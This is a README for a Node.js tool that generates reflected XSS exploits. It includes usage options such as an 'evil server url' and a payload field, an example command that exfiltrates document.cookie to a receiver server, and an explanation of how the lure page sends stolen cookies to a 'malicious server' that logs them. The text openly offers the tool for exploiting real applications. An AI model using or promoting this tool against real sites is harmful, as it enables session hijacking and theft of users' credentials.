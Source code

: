 usage: node reflected-xss-exploit-generator.js [options]  
  
Options:
```
-i,--interactive    The program ask you the settings 1 by 1 with a large explanation and examples. Good if you never used it before or you are not an expert

-t,--target         The vulnerable endpoint.
-p,--parameter      The vulnerable parameter.
-u,--url            Your evil server url.
-r,--receiver       Your server parameter.
  ,--payload        Code that extracts data.
  ,--php            Only output server php code.
  ,--node           Only output server node code.
-l,--listen         Start the selected php or node http server on the port specified.
-h,--help           This message

NOTICE:
+ If you don't select --php or --node both codes are outputed to terminal so you can copy and paste.
+ If you select --listen, you have to select --php or --node.
+ If you select --listen, a link will be ready to send to the target and a server will be listening too to capture the output.
```

example:  
node reflected-xss-exploit-generator.js -t 'http://localhost:8080/login.php' -p 'username' -u 'http://localhost:1337/cookiesReceiver.js' -r 'username' --payload 'document.cookie' --node -l 1337  
  
  
To run this example you need to serve the vulnerable page:  
php -f vulnerableExample/login.php -S localhost:8080  

Then go to http://localhost:1337/news.html  
This is the url that is going to exploit the user by sending a formulary that steals cookies (or what ever you want) from his browsers to the vulnerable page. Once the target browser is in the vulnerable page, the payload extracts the cookies and redirects to the malicious server. The malicious server append the cookies to a xss-results.txt file and send a 301 redirect response to other page.


NOTICE: THIS PROGRAM IS UNDER DEVELOMENT. Right now the --php + --listen is not working, and the --interactive is not asking if you want to listen (defaults to output code), some logs are not displaying, etc.  
The core is working, you can use it like in the example to exploit a real application.  
There is a lot of work yet to do.
